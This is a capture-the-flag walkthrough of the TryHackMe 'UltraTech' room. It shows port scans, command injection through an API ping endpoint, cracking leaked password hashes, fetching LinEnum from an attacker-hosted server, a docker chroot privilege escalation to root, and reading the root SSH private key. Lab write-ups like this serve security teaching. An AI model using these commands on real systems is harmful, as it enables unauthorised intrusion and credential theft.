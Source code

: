 # TryHackMe - UltraTech - Linux

- [Room](https://tryhackme.com/room/ultratech1)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.12.178 
Nmap scan report for 10.10.12.178
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=5/26%OT=21%CT=1%CU=38541%PV=Y%DS=4%DC=I%G=Y%TM=628F871
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 817.68 seconds

```

## WFuzz on port 8081

```
┌──(root💀kali)-[~]
└─# wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.12.178:8081/FUZZ --hc 404 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.12.178:8081/FUZZ
Total requests: 87664

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
[STRIPPED]                                                                                                                                                                      
000002579:   200        0 L      8 W        39 Ch       "auth"                                                                                                                                                                      
000003709:   500        10 L     61 W       1094 Ch     "ping"                                                                                                                                                                      
000033607:   500        10 L     61 W       1094 Ch     "Ping"                                                                                                                                                                                                                                                                                                                     
000076294:   200        0 L      8 W        39 Ch       "Auth"                                                                                                                                                                      

Total time: 2554.824
Processed Requests: 87664
Filtered Requests: 87645
Requests/sec.: 34.31311

```

## Task 2

- Which software is using the port 8081? `Node.js`
- Which other non-standard port is used? `31331`
- Which software using this port? `Apache`
- Which GNU/Linux distribution seems to be used? `Ubuntu`
- The software using the port 8081 is a REST api, how many of its routes are used by the web application? (response is find using wfuzz) `2`

## Task 3

- We have an auth endpoint that requires user and password  
![image](https://user-images.githubusercontent.com/96747355/170530482-ec0d415b-ec21-433e-9a2e-24d89037cd1c.png)  
- We also have a ping endpoint but it seems to need a parameter as well  
![image](https://user-images.githubusercontent.com/96747355/170532602-fd12e73d-f7cb-4898-90cf-b1a84cbcb2b6.png)  
- We could try to pass it an ip  
![image](https://user-images.githubusercontent.com/96747355/170533575-1c1167f7-06f0-4515-b75a-ca830a263a78.png)  
- In ctf this kind of features often leads to cmd injection so we could try a command using backticks because it takes precedence over other commands (I tried with pipes and other ways but it did not work) , and it works  
![image](https://user-images.githubusercontent.com/96747355/170534114-51771436-3caa-4c4c-a57b-d15a27060c29.png)  
- Let's try an ls  
![image](https://user-images.githubusercontent.com/96747355/170534235-08511f14-8d51-4b2c-91dd-8a7f22e6b144.png)
- We get the name of the db file!  
![image](https://user-images.githubusercontent.com/96747355/170537550-d8bc90c3-2550-4569-8f64-c39e9a14d12c.png)  
- If we cat the fil we get password hashes for an admin and a user called r00t  
![image](https://user-images.githubusercontent.com/96747355/170538856-4c51f809-8a3e-4f65-b501-9e7456e5e5d6.png)  
- If crack the hash with [crackstation](https://crackstation.net/) we get the password  
![image](https://user-images.githubusercontent.com/96747355/170539323-edab2aff-07e9-4ef3-acbf-3ef11b282664.png)  
- We can do the same for the admin password

### Questions

- There is a database lying around, what is its filename? `utech.db.sqlite`
- What is the first user's password hash? I will let you find it on your own

## About port 31331 - alternative way to foothold

- We could also find things by checking the robots.txt file  
![image](https://user-images.githubusercontent.com/96747355/170544638-7b09c227-c835-4a84-9d0b-8b5d12208697.png)  
- We discover a sitemap  
![image](https://user-images.githubusercontent.com/96747355/170544754-24b4e4a7-281d-4f8f-a572-df8d5d7d058c.png)  
- There is a partner page that we can not find when looking at the website. It is a login page  
![image](https://user-images.githubusercontent.com/96747355/170546439-28e5751c-9f3c-4e0f-97da-61a43d80440c.png)  
- We can check the source code and this way we discover the auth endpoint of the api  
![image](https://user-images.githubusercontent.com/96747355/170548050-bcdae23c-096e-4469-9104-8aed5207e74c.png)
- We can then analyze the code of the api.js file http://10.10.12.178:31331/js/api.js  
![image](https://user-images.githubusercontent.com/96747355/170549692-c0e39354-335a-4d1d-b600-e4965a7f3ea6.png)  
- This way we discover the ping endpoint `http://${getAPIURL()}/ping?ip=${window.location.hostname}`

## Task 4 - Privesc

- Let's try to ssh with the found passwords. It works!  
![image](https://user-images.githubusercontent.com/96747355/170542892-4c9eb306-60a4-4a4a-83d5-840932013862.png)
- Let's enumerate our ways to privesc with [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
- We take it in our attacking machine `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh/`
- We serve it to our target with python server `python3 -m http.server 80`
- We get it to our target `wget http://10.13.22.56/LinEnum.sh`
- We make it executable `chmod +x LinEnum.sh` we have an interesting output here  
![image](https://user-images.githubusercontent.com/96747355/170555950-42058a3c-ce10-4bd5-9f24-05df01739c27.png)  
- Let's have a look at gtfobins and search for docker, we find this(https://gtfobins.github.io/gtfobins/docker/) and we have an interesting command `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` except instead of alpine we want to use bash
- `docker run -v /:/mnt --rm -it bash chroot /mnt sh` and we get root!  
![image](https://user-images.githubusercontent.com/96747355/170556766-6e029343-6c38-455a-942f-c340f3748618.png)
- Let's take the chars of the root ssh key as requested in the question `cat /root/.ssh/id_rsa`

